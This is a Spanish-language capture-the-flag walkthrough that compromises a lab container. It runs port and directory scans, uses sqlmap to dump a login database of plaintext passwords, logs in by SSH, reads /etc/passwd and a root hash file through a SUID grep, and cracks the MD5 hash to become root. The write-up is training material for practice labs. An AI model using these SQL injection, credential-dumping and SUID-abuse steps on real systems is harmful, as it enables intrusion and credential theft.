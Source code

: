 ```bash
nmap -sV -O -sC -p- 172.17.0.2
```
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)  
| ssh-hostkey:    
|   256 08:ba:95:95:10:20:1e:54:19:c3:33:a8:75:dd:f8:4d (ECDSA)  
|_  256 1e:22:63:40:c9:b9:c5:6f:c2:09:29:84:6f:e7:0b:76 (ED25519)  
80/tcp open  http    Apache httpd 2.4.61 ((Debian))  
|_http-server-header: Apache/2.4.61 (Debian)  
|_http-title: test page

buscamos directorios:
```bash
gobuster dir -w /home/eduard/wordList/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://172.17.0.2

/css                  (Status: 301) [Size: 306] [--> http://172.17.0.2/css/]  
/server-status        (Status: 403) [Size: 275]
```

dentro del indice de la  pagina, encontramos un login. comprobamos si es vulnerable a sql injection
```
user
'
```

```bash
**Fatal error**: Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1 in /var/www/html/login.php:26 Stack trace: #0 /var/www/html/login.php(26): mysqli->query() #1 {main} thrown in **/var/www/html/login.php** on line **26**
```
vamos a usar sqlmap:
```bash
sqlmap -u http://172.17.0.2/login.html --forms --dbs -batch

available databases [5]:  
[*] information_schema  
[*] mysql  
[*] performance_schema  
[*] sys  
[*] users
```

para ver el contenido:

```bash
sqlmap -u http://172.17.0.2/login.html --forms -D users --tables -batch

Database: users  
[1 table]  
+----------+  
| usuarios |  
+----------+
```

vamos a ver el contenido de esa tabla
```bash
sqlmap -u http://172.17.0.2/login.html --forms -D users -T usuarios -columns -batch


Table: usuarios  
[3 columns]  
+----------+--------------+  
| Column   | Type         |  
+----------+--------------+  
| id       | int(11)      |  
| password | varchar(255) |  
| username | varchar(255) |  
+----------+--------------+


sqlmap -u http://172.17.0.2/login.html --forms -D users -T usuarios -C id,username,password -dump -batch

Database: users  
Table: usuarios  
[3 entries]  
+----+----------+---------------+  
| id | username | password      |  
+----+----------+---------------+  
| 1  | paco     | $paco$123     |  
| 2  | pepe     | P123pepe3456P |  
| 3  | juan     | jjuuaann123   |  
+----+----------+---------------+
```
ya tenemos usuarios y contraseña. Vamos a intentar entrar via ssh
Solo permite entrar con pepe
```bash
ssh pepe@172.17.0.2
# P123pepe3456P
```

escalada de privilegios
```bash
find / -perm -4000 2>/dev/null    

/usr/bin/chfn  
/usr/bin/chsh  
/usr/bin/gpasswd  
/usr/bin/grep  
/usr/bin/ls  
/usr/bin/mount  
/usr/bin/newgrp  
/usr/bin/passwd  
/usr/bin/su  
/usr/bin/umount
```
llama la intención grep y ls

```bash
pepe@4949c1625ffe:/$ ls root  
pass.hash
```
podemos ver que dentro del directorio root hay un archivo interesante
vamos a ver el contenido con grep

```bash
grep '' /etc/passwd 

root:x:0:0:root:/root:/bin/bash  
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin  
bin:x:2:2:bin:/bin:/usr/sbin/nologin  
sys:x:3:3:sys:/dev:/usr/sbin/nologin  
sync:x:4:65534:sync:/bin:/bin/sync  
games:x:5:60:games:/usr/games:/usr/sbin/nologin  
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin  
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin  
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin  
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin  
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin  
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin  
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin  
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin  
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin  
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin  
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin  
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin  
mysql:x:100:101:MySQL Server,,,:/nonexistent:/bin/false  
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin  
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin  
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin  
pepe:x:1000:1000::/home/pepe:/bin/bash
```

```bash
grep '' /root/pass.hash  
e43833c4c9d5ac444e16bb94715a75e4
```
parece ser el hash de root

usamos hashidentifier para saber el tipo de hash

```bash
Possible Hashs:  
[+] MD5
```

vamos a usar https://www.md5online.org/md5-decrypt.html#google_vignette para desencriptarlo

y la contraseña es `spongebob34`

ahora vamos a usarla para convertirnos en root
```bash
su -
spongebob34

whoami
# root
```